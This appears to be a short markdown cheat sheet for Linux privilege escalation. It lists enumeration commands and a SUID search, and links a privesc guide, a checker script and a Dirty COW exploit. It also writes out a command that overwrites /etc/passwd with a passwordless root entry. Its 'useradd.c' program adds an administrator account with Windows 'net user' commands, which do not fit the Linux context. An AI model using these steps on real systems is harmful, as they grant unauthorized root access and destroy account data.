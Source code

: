 # LINUX

## Do this first
```
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
```

## Find OS version
```
cat /etc/*-release
uname -i
lsb_release -a
```
## Logged in user
```
id
whoami
pwd
```
## Other users
```
cat /etc/passwd
grep -vE "nologin|false" /etc/passwd
```
## curently running processes
```
ps aux
netstat -antup
```
## What's installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
uname -a
```

## In privilage escalation we need to find answers first to below questions
```
What user files do we have access to?
What configurations do we have access to?
Any incorrect file permissions?
What programs are custom? Any SUID? SGID?
What's scheduled to run?
Any hardcoded credentials? Where are credentials kept?
```

## use a script to find the answers
```
https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
```

## Writable /etc/passwd file found
```
“root::0:0:root:/root:/bin/bash” > /etc/passwd
```

## Try dirty cow exploit
```
https://github.com/FireFart/dirtycow/blob/master/dirty.c
```

## SUID checker
```
find / \( -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```

## If it is possible to run a c executable, run useradd.c file
```
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user janith janith@123 /add && net localgroup administrators janith /add");
  return 0;
}
```
